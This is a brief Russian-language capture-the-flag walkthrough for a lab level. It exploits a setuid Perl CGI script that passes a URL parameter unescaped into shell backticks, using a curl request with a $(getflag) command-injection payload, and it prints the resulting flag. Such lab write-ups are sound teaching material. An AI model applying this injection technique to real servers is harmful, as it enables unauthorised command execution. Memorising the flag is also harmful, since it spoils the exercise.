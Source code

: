 	ls -la

	-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
	
Итак, у нас есть какой то скрипт на Перле. У него есть права на запуск с повышением привелегий до пользователя, создавшего файл

	vim level04.pl
	
	#!/usr/bin/perl
	# localhost:4747
	use CGI qw{param};
	print "Content-type: text/html\n\n";
	sub x {
		$y = $_[0];
		print `echo $y 2>&1`;
	}
x(param("x"));

Итак, там юзается CGI (https://ru.wikipedia.org/wiki/CGI), а именно qw{param},  получается что мы сверяем занчение, которое подаем с param = "x"
	
Посмотрим, запущен ли у нас какой нибудь веб-сервер

	service --status-all
	[ + ]  apache2

Значит будем пробовать посылать запросы на сервер через curl

	curl localhost:4747/?x='$PATH'

Печатает PATH, работает!

	curl localhost:4747/?x='$(getflag)'

Получаем заветный флаг:

	ne2searoevaevoem4ov4ar8ap
